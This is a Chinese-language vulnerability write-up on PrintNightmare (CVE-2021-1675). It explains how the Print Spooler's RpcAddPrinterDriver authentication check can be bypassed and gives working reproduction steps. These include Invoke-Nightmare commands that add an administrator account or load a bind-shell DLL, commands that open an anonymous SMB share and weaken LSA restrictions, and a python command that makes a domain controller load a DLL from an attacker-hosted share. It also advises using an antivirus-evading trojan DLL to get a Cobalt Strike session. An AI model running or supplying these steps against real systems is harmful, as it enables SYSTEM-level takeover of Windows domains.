







# PrintNightmare (CVE-2021-1675)

## 漏洞简介

CVE-2021-1675 是一个使用 Windows Print Spooler 实现的 RCE 和 LPE 漏洞. 该漏洞利用了`RpcAddPrinterDriver`方法, 该方法的功能为在打印服务器上安装驱动程序并链接配置、数据和打印机程序，但是其身份认证功能可绕过，并且可以通过备份驱动的方式，让`RpcAddPrinterDriver`方法加载恶意的 DLL 程序。

假设现在我们需要向打印服务器(`CORPSERV`)添加一个驱动程序(`OEM Printer Driver`), 那么客户端(`TESTCLT`)就需要执行如下步骤:

1. client 使用 RPC 调用`RpcAddPrinterDriver`方法, 向打印服务器添加一项驱动程序.
2. client 需要确保这项打印驱动程序是在打印服务器可访问的一个位置上. 例如 client 可以使用 SMB 协议分享打印机驱动程序所在目录, 以确保打印服务器可以访问到该驱动程序.
3. 然后 client 申请一个`DRIVER_INFO_2`结构体, 并添加如下数据:

```cpp
pName = L"OEM Printer Driver";
pEnvironment = L"Windows NT x86"; /* 驱动程序的编译环境 */
pDriverPath = "\\CORPSERV\C$\DRIVERSTAGING\OEMDRV.DLL";315 / 415
[MS-RPRN] - v20200826
Print System Remote Protocol
Copyright © 2020 Microsoft Corporation
Release: August 26, 2020
pDataFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMDATA.DLL";
pConfigFile = "\\CORPSERV\C$\DRIVERSTAGING\OEMUI.DLL";
```

4. client 申请一个`DRIVER_CONTAINER`结构体`driverContainer`, 并且使用`DRIVER_INFO_2`结构体初始它.
5. client 调用`RpcAddPrinterDriver`方法:

```
RpcAddPrinterDriver( L"\\CORPSERV", &driverContainer );
```

## CVE-2021-1675 分析

显然, 如果一个攻击者可以绕过`RpcAddPrinterDriver`的身份验证, 那么他就能在打印服务器中安装一个恶意的驱动程序. 在 MSDN 中, client 需要使用`SeLoadDriverPrivilege`来调用 RPC 服务. 然而这里是可以绕过的. 我们来看一看这里的身份认证逻辑:


`ValidateObjectAccess`是一个 Print Spooler 的安全性检查函数. 但是在第 19 行和 20 行, a4 参数是用户可控制, 所以一个普通用户能够绕过`ValidateObjectAccess`的安全性坚持, 从而连接 DC 服务器上的 Spooler 服务, 并且向 DC 服务器中安装打印机驱动程序. 如此一来, 攻击者就能控制整个域网络.

## Exploit

但是实际利用却不那么容易, 为了利用身份认证绕过的 bug, 我们需要理解当你调用`RpcAddPrinterDriver`方法时, Spooler service 会做些什么. 现在假设你已经提供了以下 Spooler service 路径:

```
​ pDataFile =A.dll // A

​ pConfigFile =\attackerip\Evil.dll // B

​ pDriverPath=C.dll  // C
```

Spooler service 将会把 A, B, C 复制到`C:\Windows\System32\spool\drivers\x64\3\new`文件夹下, 然后再将其复制到`C:\Windows\System32\spool\drivers\x64\3\`, 然后向 Spooler service 加载`C:\Windows\System32\spool\drivers\x64\3\A.dll`和`C:\Windows\System32\spool\drivers\x64\3\C.dll`, Spooler service 将对 A.dll 和 C.dll 进行检查, 以确保其不是一个远端访问地址(UNC path), 但是 B.dll 却可以是一个 UNC path. 因此我们可以吧`pConfigFile`设置为一个 UNC path(恶意的 dll 程序), 这样一来我们的恶意 dll 程序 evil.dll 将会被复制到`C:\Windows\System32\spool\drivers\x64\3\evil.dll`中, 然后再调用一次`RpcAddPrinterDriver`, 让`pDataFile`为`C:\Windows\System32\spool\drivers\x64\3\evil.dll`, 此时 Spoole service 将会调用`pDataFile`, 即我们的恶意 dll 文件. 但在此之前我们还需要解决一个问题.

当我们第二次调用`RpcAddPrinterDriver`时, 我们将`pDataFile`设为了`C:\Windows\System32\spool\drivers\x64\3\evil.dll`, 此时`RpcAddPrinterDriver`会将`C:\Windows\System32\spool\drivers\x64\3\evil.dll`复制到`C:\Windows\System32\spool\drivers\x64\3\`目录下, 但是这样一来会有访问冲突(因为文件重名了), 为了绕过这一问题, 我们需要使用驱动升级的备份特性. 如果我们升级某一驱动, 那么旧版本的驱动将会备份在`C:\Windows\System32\spool\drivers\x64\3\old\1\`文件夹下, 这样一来就避免了访问冲突.

Spooler service 是以 SYSTEM 权限运行的, 如果 evil.dll 是一个 cs 的后门, 那么我们可以直接获取到 DC 服务器的 SYSTEM 权限.

## 影响范围

CVE-2021-1675 可以用于 LPE 和 RCE. 当使用 RCE 时, 我们需要一个已在 Spooler service 认证过的用户权限, 在域环境下这是致命的, 几乎所有的域成员都拥有此权限. 因为通常情况下 DC 服务器都会开启 Spooler service, 一个失陷的域成员用户就可以使用此漏洞获取 DC 服务器权限.

## 复现

### LPE

我们使用[https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)来复现, LPE 不需要与 DC 服务器交互, 该 exp 可以在当前计算机内添加一个 administrators 组的用户. 当然我们可以在本地加载任意的恶意 dll 文件, 反正 Spooler service 是以 SYSTEM 权限运行的.

环境:


#### 食用方法:

1. 本地提权

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare # 默认不带参数, 添加管理员用户adm1n, 密码P@ssw0rd

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure"
```

2. 加载其他 dll

```
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"

```

#### 效果





### RCE

这里我们使用[https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)提供的 exp.
首先我们需要域内任意一个成员的权限, 假设我们获取 win7test 这个用户的权限, 利用此漏洞的提权我们成功将权限提升的本地管理员(并非域管), 利用本地管理员权限我们设置 c:\share 目录为 smb 匿名访问目录:
Windows:

```
mkdir C:\share
icacls C:\share\ /T /grant Anonymous` logon:r
icacls C:\share\ /T /grant Everyone:r
New-SmbShare -Path C:\share -Name share -ReadAccess 'ANONYMOUS LOGON','Everyone'
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionPipes /t REG_MULTI_SZ /d srvsvc /f #This will overwrite existing NullSessionPipes
REG ADD "HKLM\System\CurrentControlSet\Services\LanManServer\Parameters" /v NullSessionShares /t REG_MULTI_SZ /d share /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v EveryoneIncludesAnonymous /t REG_DWORD /d 1 /f
REG ADD "HKLM\System\CurrentControlSet\Control\Lsa" /v RestrictAnonymous /t REG_DWORD /d 0 /f
# Reboot
```

Linux 编辑`/etc/samba/smb.conf`文件:

```
[global]
    map to guest = Bad User
    server role = standalone server
    usershare allow guests = yes
    idmap config * : backend = tdb
    smb ports = 445

[smb]
    comment = Samba
    path = /tmp/
    guest ok = yes
    read only = no
    browsable = yes
    force user = smbuser
```

准备一个免杀的 dll 木马放到 win7test 的 c:\share 目录下, 否则 dll 马过不了 Defender.:


在 kali 中运行:

```
python3 CVE-2021-1675.py gong.com/win2016test:Password@192.168.247.135 '\\192.168.247.132\share\spooler.dll'
```



cs 上线:

